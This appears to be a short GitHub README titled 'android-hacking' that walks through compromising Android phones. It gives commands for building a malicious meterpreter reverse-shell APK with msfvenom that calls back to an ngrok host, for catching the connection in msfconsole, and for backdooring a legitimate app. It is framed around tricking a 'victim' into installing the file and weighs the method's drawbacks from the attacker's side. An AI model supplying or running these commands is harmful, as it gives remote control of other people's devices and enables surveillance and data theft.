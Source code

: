 # android-hacking

## Using malicios APK file

1. Getting public ip with ngrok
          
           ./ngrok tcp 1234
           
2. Generating with msfvenom  
         
          msfvenom -p android/meterpreter/reverse_tcp LHOST=0.tcp.ngrok.io LPORT=12126 R > malicious.apk
3. Using msfconsole to listen to the connection from our payload
    
       use exploit/multi/handler
       set payload android/meterpreter/reverse_tcp
   
   Then
   
      `Now we need to send the apk to the victim and getting them to install and launch`
      
 #### Disadvantages of this method
  1. Requires either access to the victim’s phone or social engineering to get the victim to install and launch the malicious apk.
  2. The generated apk file does not look legitimate. It’s only a few KBs and doesn’t do anything when clicked on. The victim might either uninstall it right away or not install it at all.
  3. Might require a lot of time and effort to make the apk file look realistic i.e. changing the logo, adding some functionality.
  4. Such an apk file is easily classified as dangerous by any anti-virus installed on the victim’s phone.
  5. Numerous warnings from the mobile device and Google Play Store that installing apps from unknown sources is dangerous. This might deter the victim from proceeding.
  6. The connection we get back is not persistent. Once the phone reboots, loses internet connection, or the user clears all the running apps in the background, we lose our connection and the only way to get it back again is if the user clicks on the app icon again.
  
  ## Injecting a Malicious Payload on a Legitimate Android App
  
   * you can download legitimate apk files. Kindly note that not all apk files can easily be exploited in this way. Some of them have protections in place
    Then 
    
        msfvenom -x CameraSample.apk -p android/meterpreter/reverse_tcp LHOST=2.tcp.ngrok.io LPORT=12492 -o CameraSample_backdoored.apk
    
